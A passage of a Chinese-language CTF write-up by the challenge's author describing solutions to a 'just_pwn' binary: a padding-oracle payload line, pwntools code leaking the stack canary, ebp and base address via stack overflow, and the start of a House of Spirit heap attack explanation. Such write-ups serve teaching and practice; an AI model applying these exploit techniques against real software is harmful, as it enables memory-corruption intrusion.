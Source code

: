   ```
  padding = 'iv=' + iv + ';CipherLen=0096;CipherText=' + Cipherpart0 + Cipherpart1 + Cipherpart2 + ';'
  just_pwn.sendline(padding)
  ```

## 第二关
思路是通过buybuybuy函数递归抬高栈顶，再通过getProfessional里的栈溢出获得canary, ebp和程序的基地址信息。对于获得canary,ebp大家都用的是我的思路，但是在获得程序基地址信息的时候又有了非预期。   
buybuybuy函数一次消费的money是4444，用两次就不够了，我想着如果你第二次栈溢出是为了获得程序流的话，在没有基地址的情况下是不可能的。但是我忘了自己为了方便选手而设置了一个getflag()函数，因为这里开了随机化，函数最后一个半字节是不变的，而getflag函数与getProfessional离得相当近，所以只用再猜半个字节就够了。（getflag函数在ida的地址为`.text:000000000000122C`, 其中`22c`是不变的，有位选手设置的为`522c`，就有几率调到getflag函数）。    
总结：还是让他们ROP然后自己计算system函数地址吧

以下是我的愚蠢的代码：
```python
def getData():
    just_pwn.sendline("3");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","y");
    just_pwn.sendlineafter("buy my software:\n","aaaaaaaa");
    just_pwn.recvuntil("So your reason is:\n");
    recv = just_pwn.recvuntil("But");
    canary = u64(recv[9:16].rjust(8,'\x00'))
    ebp = u64(recv[16:22].ljust(8,'\x00'))
    print hex(canary)
    print hex(ebp)
    
    just_pwn.sendline("3");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","y");
    just_pwn.sendlineafter("buy my software:\n",'a'*23);
    recv = just_pwn.recvuntil("So your reason is:\n");
    recv = just_pwn.recvuntil("But");
    addr = u64(recv[24:30].ljust(8,'\x00')) - 0xa3 + 0x50
    print hex(addr)
    return [canary, ebp, addr]

  datalist = getData();
  canary = datalist[0]
  ebp = datalist[1]
  addr_buybuybuy = datalist[2]

```

## 第三关
基本上除了有两组在第二个栈溢出获得控制流以外，基本上大家都是在push message里用堆漏洞获得程序控制流。我就讲一下如何在这道题里构建House of Spirit攻击。   
在菜单里选择`1.push message`之后会让你先输入64位的`len`（`len`是`welcome`函数中声明的变量），再跳转到`leavemessage`函数，而`leavemessage`中的`buf`是我们要伪造的chunk的开头。我们先看看进入`leavemessage`函数后的栈分布：
